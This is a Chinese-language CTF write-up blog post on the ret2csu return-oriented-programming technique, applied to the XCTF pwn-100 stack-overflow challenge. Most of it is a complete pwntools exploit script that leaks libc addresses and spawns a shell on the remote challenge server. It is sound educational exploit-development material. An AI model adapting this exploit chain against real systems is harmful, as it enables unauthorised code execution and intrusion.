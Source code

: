 ```yaml
---
layout: article
pageview: true
key: 2021-07-21-ret2csu
title: ret2csu学习笔记
author: Ch4rc0al
categories:
  - WriteUps
tags:
  - Pwn	
  - CTF
---
```




最近学习了中级Rop中的`ret2csu`技巧，记录一篇WP来巩固学习

<!--more-->

## pwn-100

[例题 pwn-100](https://adworld.xctf.org.cn/task/answer?type=pwn&number=2&grade=1&id=4888&page=1)

>     Arch:     amd64-64-little
>     RELRO:    Partial RELRO
>     Stack:    No canary found
>     NX:       NX enabled
>     PIE:      No PIE (0x400000)

```c
int sub_40068E()
{
  char v1[64]; // [rsp+0h] [rbp-40h] BYREF

  sub_40063D((__int64)v1, 200);
  return puts("bye~");
}
```

此处有栈溢出漏洞，并且可以溢出很大

程序可以调用`puts`和`read`

思路：通过`ret2csu`调用`puts`获取`puts`函数的真实地址，通过`LibcSearcher`拿到基地址，调用`read`向bss段写入`execve`和`/bin/sh\x00`，调用`execve`拿到shell

```
from pwn import *
from LibcSearcher import LibcSearcher
context(os='linux',arch='amd64',log_level='debug')

sh=remote('111.200.241.244',53809)
#sh=process('./pwn100')
elf=ELF('./pwn100')
csu_end=0x40075A
csu_front=0x400740
puts_got=elf.got['puts']
read_got=elf.got['read']
main=0x40068e
bss_base=elf.bss();

def csu(rbx,rbp,r12,r13,r14,r15,last):
    payload='a'*0x40+'bbbbbbbb'
    payload+=p64(csu_end)+p64(rbx)+p64(rbp)+p64(r12)+p64(r13)+p64(r14)+p64(r15)
    payload+=p64(csu_front)+'a'*0x38+p64(last)
    sh.send(payload)
    sh.recvuntil('bye~\n')

csu(0,1,puts_got,0,0,puts_got,main)
puts_addr=u64(sh.recv()[:-1].ljust(0x8,'\x00'))


libc=LibcSearcher('puts',puts_addr)
libc_base=puts_addr-libc.dump('puts')

execve_addr = libc_base + libc.dump('execve')

csu(0,1,read_got,16,bss_base,0,main)

sh.send(p64(execve_addr)+'/bin/sh\x00')

csu(0,1,bss_base,0,0,bss_base+0x8,main)

sh.interactive()
```

